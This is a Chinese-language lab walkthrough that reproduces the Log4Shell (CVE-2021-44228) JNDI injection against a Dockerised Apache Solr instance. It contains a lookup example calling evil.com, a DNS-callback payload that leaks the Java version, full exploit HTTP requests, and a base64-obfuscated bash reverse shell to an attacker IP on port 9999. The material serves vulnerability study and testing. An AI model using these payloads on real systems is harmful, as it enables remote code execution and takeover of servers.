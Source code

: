 # Apache Log4j2 lookup JNDI 注入漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

CVE-2021-44228常被称为`log4shell`。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

Payloads：

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md

## 环境搭建

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

Vulhub执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:ldap://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

![image-20220305220532335](./images/202203052205527.png)

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

![image-20220305220601719](./images/202203052206769.png)

实际利用JNDI注入漏洞，可以使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit)。

![image-20220305223436251](./images/202203052234596.png)

利用完毕后，可见`touch /tmp/awesome_poc`已经成功被执行：

![image-20220305223503054](./images/202203052235135.png)

### 反弹shell

构造反弹shell命令：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}
```

![image-20220305223522125](./images/202203052235402.png)

构造Payload：

```
GET /solr/admin/cores?action=${jndi:ldap://192.168.174.128:1389/chof5b} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

监听9999端口，接收反弹shell：

![image-20220305223552171](./images/202203052235323.png)